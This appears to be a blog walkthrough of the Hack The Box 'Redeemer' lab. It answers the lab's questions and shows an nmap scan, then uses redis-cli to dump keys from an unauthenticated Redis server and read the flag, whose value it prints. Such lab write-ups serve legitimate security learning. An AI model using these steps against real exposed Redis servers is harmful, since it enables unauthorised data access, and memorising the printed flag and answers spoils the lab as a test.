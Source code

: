```yaml
---
title: "Redeemer Walkthrough HTB"
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Redis is an open source (BSD licensed), in-memory data structure store used as a database, cache, message broker, and streaming engine. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams. Redis has built-in replication, Lua scripting, LRU eviction, transactions, and different levels of on-disk persistence, and provides high availability via Redis Sentinel and automatic partitioning with Redis Cluster.


---

💻️ The Target Machine is : 10.129.61.157

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.61.157 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.61.157
```

### Answering HTB Questions 

> Which TCP port is open on the machine? 
>> 6379

>  Which service is running on the port that is open on the machine? 
>> redis

>  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 
>> In-memory database

[**In-memory database**]() is a database that keeps data in the main memory aka RAM, therefore each time you query the DB or even update the DB then you basically access the main memory. There is no secondary memory usage in the operations. Hence, if the machine crashes the data is lost.

>  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 
>> Redis-cli

>  Which flag is used with the Redis command-line utility to specify the hostname? 
>> -h

>  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 
>> INFO

>  What is the version of the Redis server being used on the target machine? 
>> 5.0.7

>  Which command is used to select the desired database in Redis? 
>> select

I wrote `select` because it is usually the go to command to access databases and tables more so when using SQL.
Up to this point I basically used help command to figure things out and move around, but I haven't been able to view the databases that are available let alone the tables.
The onlything to do now is research on redis and the system 😅️.

After an enourmous time of googling here is what I found.

> Redis provides you with 16 databases starting from index 0 to index 15. You can switch to a database using the select command as:
```
127.0.0.1:6379> select 1
OK
127.0.0.1:6379[1]>
```
Use [this](https://linuxhint.com/redis-cli/) for reference.

Also, Redis is a NO-SQL type of database system. So that would mean that it is a non-relational DB 🤔️.

A tip that I found was to use this [site](https://book.hacktricks.xyz/welcome/readme) it is called hacktricks, a wonderful resource for knowledge in terms of ctfs.

In-depth reference would be [cryptocat](https://www.youtube.com/watch?v=usZ78an3jXE&t=6s) video.

 
>  How many keys are present inside the database with index 0? 
>> 4



>  Which command is used to obtain all the keys in a database? 
>> keys *


## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

Okay let's put it all together, as shown below:
```
$ redis-cli -h $IP

10.129.61.157:6379> INFO

# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64

---snip---
```
The info command gives us details about the system.

```
10.129.61.157:6379> dbsize
(integer) 4
```
This just stated the size of the DB.
```
10.129.61.157:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
To dump the whole database we use the command above, db0 basically denotes the index 0 which is a database. Notice that the number of keys are 4 and each key ought to have a value 🤔️.
```
10.129.61.157:6379> select 0
OK
10.129.61.157:6379> keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
10.129.61.157:6379> get "flag"
"03e1d2b376c37ab3f5319922053953eb"
```
So I needed to select the database, which I did, there after list all the keys.
The * denotes list everything or include everything.
What is listed are basically keys and their data type is string.
To get the values you basically use the get command together with the key.

> Submit root flag
>> 03e1d2b376c37ab3f5319922053953eb
